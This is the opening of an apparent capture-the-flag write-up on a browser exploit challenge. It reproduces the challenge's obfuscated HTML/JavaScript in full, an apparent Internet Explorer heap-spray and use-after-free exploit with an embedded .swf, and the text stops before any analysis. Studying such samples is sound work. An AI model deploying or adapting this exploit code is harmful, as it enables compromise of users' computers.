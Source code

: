 # Browser Exploit 

## Challenge Description 
<img width="1153" height="398" alt="image" src="https://github.com/user-attachments/assets/1d1b1339-bbf1-4d16-b1bf-2abdf4aea3bc" />


## Solution and Analysis 

First get the .html file from the password protected archive and open it in notepad++ as shown 

<img width="1018" height="533" alt="image" src="https://github.com/user-attachments/assets/637b1c48-842a-4b16-9f4e-8f03a789810b" />

The initial code is heavily obfuscated. The primary logic is stored in a single URI-encoded string and executed dynamically.
```html
<html>

<head id='headId'>
    <title>SvWLQAda</title>
    <script>
        var hDAVYVhp = function (TRdPNtO) {
            return TRdPNtO['toString'](36)
        };
        var mqQUHDzc = '%66%75%6e%63%74%69%6f%6e%20%65%59%6c%52%66%58%28%64%77%6f%72%64%29%7b%76%61%72%20%64%3d%4e%75%6d%62%65%72%28%64%77%6f%72%64%29%5b%27%74%6f%53%74%72%69%6e%67%27%5d%28%31%36%29%3b%77%68%69%6c%65%28%64%5b%27%6c%65%6e%67%74%68%27%5d%3c%38%29%7b%64%3d%27%30%27%2b%64%3b%7d%72%65%74%75%72%6e%20%75%6e%65%73%63%61%70%65%28%27%25%75%27%2b%64%5b%27%73%75%62%73%74%72%27%5d%28%34%2c%38%29%2b%27%25%75%27%2b%64%5b%27%73%75%62%73%74%72%27%5d%28%30%2c%34%29%29%3b%7d%76%61%72%20%67%5f%61%72%72%3d%5b%5d%3b%76%61%72%20%61%72%72%4c%65%6e%3d%30%78%32%35%30%3b%66%75%6e%63%74%69%6f%6e%20%66%75%6e%28%29%7b%76%61%72%20%61%3d%30%3b%66%6f%72%28%61%3d%30%3b%61%3c%61%72%72%4c%65%6e%3b%2b%2b%61%29%7b%67%5f%61%72%72%5b%61%5d%3d%64%6f%63%75%6d%65%6e%74%5b%27%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%27%5d%28%27%64%69%76%27%29%3b%7d%3b%76%61%72%20%62%3d%65%59%6c%52%66%58%28%30%78%64%65%61%64%63%30%64%65%29%3b%76%61%72%20%63%3d%30%78%31%61%31%62%32%30%30%30%3b%77%68%69%6c%65%28%62%5b%27%6c%65%6e%67%74%68%27%5d%3c%30%78%33%36%30%29%7b%69%66%28%62%5b%27%6c%65%6e%67%74%68%27%5d%3d%3d%28%30%78%39%34%2f%32%29%29%7b%62%2b%3d%65%59%6c%52%66%58%28%63%2b%30%78%31%30%2d%30%78%30%63%29%3b%7d%65%6c%73%65%20%69%66%28%62%5b%27%6c%65%6e%67%74%68%27%5d%3d%3d%28%30%78%39%38%2f%32%29%29%7b%62%2b%3d%65%59%6c%52%66%58%28%63%2b%30%78%31%34%2d%30%78%38%29%3b%7d%65%6c%73%65%20%69%66%28%62%5b%27%6c%65%6e%67%74%68%27%5d%3d%3d%28%30%78%61%63%2f%32%29%29%7b%62%2b%3d%65%59%6c%52%66%58%28%63%2d%30%78%31%30%29%3b%7d%65%6c%73%65%20%69%66%28%62%5b%27%6c%65%6e%67%74%68%27%5d%3d%3d%28%30%78%31%35%63%2f%32%29%29%7b%62%2b%3d%65%59%6c%52%66%58%28%30%78%34%32%34%32%34%32%34%32%29%3b%7d%65%6c%73%65%7b%62%2b%3d%65%59%6c%52%66%58%28%30%78%31%61%31%62%32%30%30%30%2d%30%78%31%30%29%3b%7d%7d%3b%76%61%72%20%64%3d%62%5b%27%73%75%62%73%74%72%69%6e%67%27%5d%28%30%2c%28%30%78%33%34%30%2d%32%29%2f%32%29%3b%74%72%79%7b%74%68%69%73%5b%27%6f%75%74%65%72%48%54%4d%4c%27%5d%3d%74%68%69%73%5b%27%6f%75%74%65%72%48%54%4d%4c%27%5d%3b%7d%63%61%74%63%68%28%65%29%7b%7d%43%6f%6c%6c%65%63%74%47%61%72%62%61%67%65%28%29%3b%66%6f%72%28%61%3d%30%3b%61%3c%61%72%72%4c%65%6e%3b%2b%2b%61%29%7b%67%5f%61%72%72%5b%61%5d%5b%27%74%69%74%6c%65%27%5d%3d%64%5b%27%73%75%62%73%74%72%69%6e%67%27%5d%28%30%2c%64%5b%27%6c%65%6e%67%74%68%27%5d%29%3b%7d%7d%66%75%6e%63%74%69%6f%6e%20%70%75%49%48%61%33%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%5b%27%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%27%5d%28%27%73%63%72%69%70%74%27%29%3b%76%61%72%20%62%3d%61%5b%30%5d%3b%62%5b%27%6f%6e%70%72%6f%70%65%72%74%79%63%68%61%6e%67%65%27%5d%3d%66%75%6e%3b%76%61%72%20%63%3d%64%6f%63%75%6d%65%6e%74%5b%27%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%27%5d%28%27%53%45%4c%45%43%54%27%29%3b%63%3d%62%5b%27%61%70%70%65%6e%64%43%68%69%6c%64%27%5d%28%63%29%3b%7d%64%6f%63%75%6d%65%6e%74%5b%27%77%72%69%74%65%27%5d%28%27%3c%65%6d%62%65%64%20%73%72%63%3d%5c%27%65%35%36%64%32%2e%73%77%66%5c%27%20%77%69%64%74%68%3d%5c%27%31%30%30%70%78%5c%27%20%68%65%69%67%68%74%3d%5c%27%31%30%30%70%78%5c%27%3e%3c%2f%65%6d%62%65%64%3e%27%29%3b';
        this[hDAVYVhp(693741)](this[hDAVYVhp(2401885046066)](mqQUHDzc));
    </script>
    <noscript>
        <meta http-equiv='refresh' content='0;url=../nojs.php' />
    </noscript>
</head>

```